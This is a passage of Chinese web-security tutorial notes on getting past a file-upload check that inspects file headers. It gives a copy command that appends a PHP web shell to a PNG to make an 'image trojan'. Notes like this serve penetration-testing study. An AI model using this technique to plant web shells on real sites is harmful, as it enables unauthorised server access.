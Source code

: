 

![image-20250228105549552](../../_media/image-20250228105549552.png)



### 图片上传：检查文件头

这时候上传的时候修改协议包的那些标识都是不管用的了

![image-20250228105815603](../../_media/image-20250228105815603.png)



这时候直接上传图片马即可

本地找到图片和shell.php

```
copy xxx.png/b + shell.php/a shell.png
```

可以看到协议包内容
